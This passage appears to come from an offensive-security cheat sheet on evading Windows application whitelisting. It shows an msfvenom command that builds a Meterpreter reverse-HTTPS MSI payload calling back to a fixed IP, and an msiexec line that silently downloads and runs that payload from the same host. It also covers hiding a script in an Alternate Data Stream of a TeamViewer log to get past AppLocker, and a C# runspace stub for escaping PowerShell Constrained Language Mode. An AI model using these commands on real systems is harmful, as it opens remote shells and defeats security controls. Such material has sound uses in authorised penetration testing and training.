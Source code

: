 Create and *remotely host* MSI installer payload

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f msi-nouac -o meterp64-nouac.msi
```

Run

```
msiexec /i http://192.168.49.83/meterp64-nouac.msi /qn
```

#### Alternate Data Streams

Find a file in a trusted location that is both writeable and executable, bypassing AppLocker.

For example, TeamViewer 12, uses a log file "TeamViewer12_Logfile.log" meets these requirements.

```
type test.js > "c:\program files (x86)\Teamviewer\teamviewer12_logfile.log:test.js"
```

#### Third Party Execution

Keep an eye out for:

- python.exe
- php.exe
- java
- etc

#### Bypass Constrained Language Mode (CLM)

Use C# to create a runspace bypass

[Full Source](../src/csharp/RunspaceBypass.cs)

```
namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
        }
    }
}
```
---

### 5. Post Exploitation Recon

#### Defender

List Protection History
